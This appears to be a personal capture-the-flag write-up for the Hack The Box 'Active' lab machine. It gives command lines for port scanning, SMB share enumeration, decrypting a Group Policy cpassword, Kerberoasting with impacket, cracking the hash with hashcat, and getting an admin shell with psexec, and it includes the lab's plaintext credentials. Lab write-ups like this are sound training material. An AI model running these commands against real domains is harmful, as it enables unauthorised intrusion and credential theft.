


Active
Nmap portscan
nmap <IP> -Pn -sT --open --stats-every=5s --reason -oN scan_active.txt
See only Open Ports Number
grep 'open' scan_active.txt | awk '{print $1}' | cut -d'/' -f1
Enumerate Ports with comma
grep 'open' scan_active.txt | awk '{print $1}' | cut -d'/' -f1 | paste -sd ','
With the open ports we can be more specific finding version and executing scripts

Important check UDP ports for SNMP and other common protocols
Its a Windows machine so its probably that there is some juicy info in the SMB protocol
I execute enum4linux

Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
We can see that I can readonly the directorie Replication
smbmap -H 10.10.10.100 (we can use enum4linux too)
For see in a recursive mode
I find Groups.xml
I Download the file and after this i will see what it has
There are a username and a password
active.htb\SVC_TGS:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

I search more about The cpassword and i find this:
I decrypt it with gpp-decrypt and i find the password:
I have a pass and a username → active.htb:GPPstillStandingStrong2k18
Now i have access to Users Folder
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
I enter with smbclient
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
in SVC_TGS I have the user.txt flag
ldapsearch can now be used to query the Domain Controller for Active Directory UserAccountControlattributes of active accounts
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b"dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName
mpacket’s GetADUsers simplifies the process of enumerating domain user accounts
impacket-GetADUsers -all active.htb/svc_tgs -dc-ip 10.10.10.100
I think its vulnerable to Kerberoasting. When you want to authenticate to some service using Kerberos, you contact the DC and tell it to which system service you want to authenticate. It encrypts a response to you with the service user’s password hash. You send that response to the service, which can decrypt it with it’s password, check who you are, and decide it if wants to let you in.
In a Kerberoasting attack, rather than sending the encrypted ticket from the DC to the service, you will use off-line brute force to crack the password associated with the service.
Most of the time you will need an active account on the domain in order to initial Kerberoast, but if the DC is configured with UserAccountControl setting “Do not require Kerberos preauthentication” enabled, it is possible to request and receive a ticket to crack without a valid account on the domain.
For get the hash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
For crack the hash offline
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
We have the admin password
Now i make a enum with smbmap
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
I connect with smbclient and i obtain the root_flag.txt
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
If i can write in the shares and i have admin access i can get a shell with psexec from impacket
impacket-psexec active.htb/administrator@10.10.10.100